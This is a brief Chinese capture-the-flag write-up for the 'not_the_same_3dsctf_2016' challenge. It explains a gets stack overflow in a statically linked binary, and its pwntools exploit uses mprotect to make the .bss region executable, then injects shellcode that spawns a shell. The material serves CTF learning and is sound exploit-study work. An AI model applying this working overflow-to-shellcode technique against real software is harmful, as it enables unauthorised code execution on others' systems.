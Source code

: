 ```yaml
---
title: "not_the_same_3dsctf_2016"
description: ""
date: 2023-04-07T11:44:07+08:00
lastmod: 2023-04-07T11:44:07+08:00
draft: false
images: []
type: docs
weight: 987
toc: true
---
```


## 0x01 分析

这道题是静态编译的

![3595b6acc12bce0b1a78d56143441ec5](images/3595b6acc12bce0b1a78d56143441ec5.png)  

main函数是一个简单的gets栈溢出，所以可以用ret2syscall、ret2shellcode等方法来做，这里的话我用mprotect修改bss权限然后注入shellcode来做

## 0x02 Exploit

```python
from pwn import*
context.arch = 'i386'
o = process("./pwn")
elf = ELF("./pwn")

mprotect = elf.sym['mprotect']
gets = elf.sym['gets']
main = elf.sym['main']
bss = 0x80ec000

payload = b'a'*45 + p32(mprotect) + p32(main) + p32(bss) + p32(0x1000) + p32(7)
o.sendline(payload)

payload = b'a'*45 + p32(gets) + p32(bss) + p32(bss)
o.sendline(payload)
o.sendline(asm(shellcraft.sh()))

o.interactive()

```

![79e310d17c9b4671dc2b3b009eaa593a](images/79e310d17c9b4671dc2b3b009eaa593a.png)  

自行调试
